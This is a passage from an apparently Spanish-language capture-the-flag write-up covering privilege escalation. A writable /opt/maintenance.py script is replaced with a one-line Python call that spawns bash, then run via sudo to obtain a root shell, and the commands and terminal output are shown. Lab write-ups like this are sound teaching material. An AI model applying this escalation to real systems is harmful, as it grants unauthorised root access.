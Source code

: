 ![Desktop View](/20251027220952.webp){: width="972" height="589" .shadow}

Modificamos el script con el contenido que nos abrirá una consola:

```bash
┌──(freddy㉿c6b30fd1dfdb)-[~]
└─$ cat /opt/maintenance.py 
import os; os.system("/bin/bash")
```

Al ejecutarlo con `sudo`, vemos que obtenemos la consola como el usuario `root`:

```bash
┌──(freddy㉿c6b30fd1dfdb)-[~]
└─$ sudo /usr/bin/python3 /opt/maintenance.py

┌──(root㉿c6b30fd1dfdb)-[/home/freddy]
└─# whoami
root
```

<a href="https://www.buymeacoffee.com/elcybercurioso" target="_blank"><img src="https://img.buymeacoffee.com/button-api/?text=Buy+me+a+coffee&emoji=&slug=elcybercurioso&button_colour=FFDD00&font_colour=000000&font_family=Cookie&outline_colour=000000&coffee_colour=ffffff" alt="buymecoffee_icon" /></a>

<script data-name="BMC-Widget" data-cfasync="false" src="https://cdnjs.buymeacoffee.com/1.0.0/widget.prod.min.js" data-id="zweilosec" data-description="Support me on Buy me a coffee!" data-message="Gracias por tu visita! Un café me da las fuerzas para continuar!" data-color="#FFDD00" data-position="Right" data-x_margin="18" data-y_margin="18"></script>